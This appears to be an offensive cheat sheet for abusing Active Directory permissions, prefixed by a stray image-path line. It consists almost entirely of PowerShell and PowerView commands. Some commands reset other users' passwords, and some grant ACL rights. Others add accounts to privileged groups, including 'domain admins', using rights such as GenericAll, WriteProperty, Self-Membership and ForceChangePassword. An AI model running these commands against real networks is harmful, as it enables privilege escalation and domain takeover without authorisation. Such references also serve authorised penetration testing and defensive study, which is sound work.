#### GenericAll on User:

```powershell
net user <username> <password> /domain
```

#### GenericAll on Group:

{% code overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential ('domain\user', $SecPassword)

Import-Module .\PowerView.ps1

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "<group name>" -PrincipalIdentity "<domain\user we want to add>"

Add-DomainGroupMember -Identity '<group name>' -Members "<domain\user we want to add>" -Credential $Cred
```
{% endcode %}

#### GenericAll on Group w/o Powerview:

{% code overflow="wrap" %}
```powershell
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
{% endcode %}

#### WriteProperty on Group:

{% code overflow="wrap" %}
```powershell
net user <user> /domain; Add-NetGroupUser -UserName <username> -GroupName "<group name>" -Domain "domain.com"
```
{% endcode %}

#### Self-Membership on Group:

```powershell
Add-NetGroupUser -UserName <username> -GroupName "<group name>" -Domain 
```

#### ForceChangePassword:

```
Set-DomainUserPassword -Identity <username> -Verbose
```

{% code overflow="wrap" %}
```powershell
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose

OR 

Set-DomainUserPassword -Identity <username> -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
{% endcode %}
